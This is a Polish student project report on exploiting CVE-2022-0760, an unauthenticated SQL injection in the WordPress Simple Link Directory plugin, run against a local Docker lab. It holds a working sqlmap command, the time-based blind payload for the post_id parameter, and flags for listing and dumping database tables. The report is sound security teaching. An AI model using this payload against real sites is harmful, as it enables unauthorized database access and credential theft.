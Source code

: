 <p align="center">
    <img width="20%" src="..\Logo\logo-pwr.png">
    <h1 align="center">Zadanie - atak na Wordpress</h1>
    <h3 align="center">Bezpieczeństwo aplikacji webowych (projekt)</h3>
    <h3 align="center">piątek 8:15</h3>
</p>

---

W ramach zadania projektowego wykonano raport przeprowadzeonego ataku na dowolnie wybraną wersję Wordpress'a (z wybraną dowolnie wtyczką).

## Wybrana podatność - CVE-2022-0760 - Unauthenticated SQL injection in Simple Link Directory

Wybrana podatność to `Unauthenticated SQL injection` dla wtyczki Wordpress [Simple Link Directory](https://wordpress.org/plugins/simple-link-directory/) - [CVE-2022-0760](https://nvd.nist.gov/vuln/detail/CVE-2022-0760).


| Severity | 9.8 Critical |
| CVSS | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| CWE | CWE-89 - Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') |

Wtyczka nie waliduje i nie usuwa parametru `post_id` przed wykorzystaniem go w instrukcjach SQL za pomocą akcji w AJAX `qcopd_upvote_action`, co może umożliwić nieupoważnionym atakującym przeprowadzenie ataku `SQL injection`.


Podatność dotyczy wersji wtyczki `Simple Link Directory` w wersji poniżej 7.7.2.
Podatność została zgłoszona 28 lutego 2022 przez https://cyllective.com.

Podatność została finalnie poprawiona w wersji 7.7.2.


Stronę WordPress z podatną wtyczką można przeskanować w ramach narzędzia [WPScan](https://wpscan.com/vulnerability/1c83ed73-ef02-45c0-a9ab-68a3468d2210) - posiada jej detekcje w swoim zbiorze danych.


## Obraz Docker - Wordpress

W ramach zadania utworzono plik [DockerFile](DockerFile), który tworzy podatną instancję Wordpress z potrzebnymi komponentami.
Strona jest wystawiona na porcie 18000.

Aby uruchomić kontener należy wykonać poniższe komendy:
```
docker build -t wordpress . 
docker run --name=wordpress --rm -p 18000:80 -it -e WORDPRESS_SITE_URL=localhost:18000 wordpress
```

Uruchomioną stronę można podejrzeć pod adresem `localhost:18000`.\
![Start](Images/wp.PNG)

## Wykorzystanie podatności - PoC

W ramach wykorzystania podatności zasymulowano scenariusz ataku SQLi Injection na podatną stronę WordPress.

Aby to zrobić wykorzystano narzędzie `sqlmap` - potwierdzi ono występowanie podatności.
W tym celu wykorzystano podatną akcje AJAX `qcopd_upvote_action` wraz z `post_id`.

```
sqlmap -u "http://localhost:18000/wp-admin/admin-ajax.php" --data 'action=qcopd_upvote_action&post_id=1' -p post_id --dbms mysql
```

W wyniku wykonania powyższej komendy uzyskujemy informacje o podatnym parametrze `post_id` - jest możliwe wstrzyknięcie kodu SQLi `Blind time based `.

Ładunek, który można wykorzystać to:

```
Parameter: post_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=qcopd_upvote_action&post_id=1 AND (SELECT 9007 FROM (SELECT(SLEEP(5)))hwvp)
```

![sql](Images/sqlmap.PNG)

Dzięki fladze `--tables` można otrzymać po dłuższym czasie informacje o zawartych strukturach w bazie danych. Należy pamiętać, że zapytania `Blind time-based` są powolne.

![sql_tables1](Images/sqlmap_tables1.PNG)
![sql_tables2](Images/sqlmap_tables2.PNG)
![sql_tables3](Images/sqlmap_tables3.PNG)

Przykładowo dla innych flag można uzyskać więcej informacji o tabelach - `-T <table> --columns`, a następnie je pobrać dodając flagę `--dump`.

W przypadku strony Wordpress, która posiadałaby w bazie danych tabele np. użytkowników, możnabyłoby uzyskać jej kopię i wykorzystać dane do wykradnięcia poświadczeń.

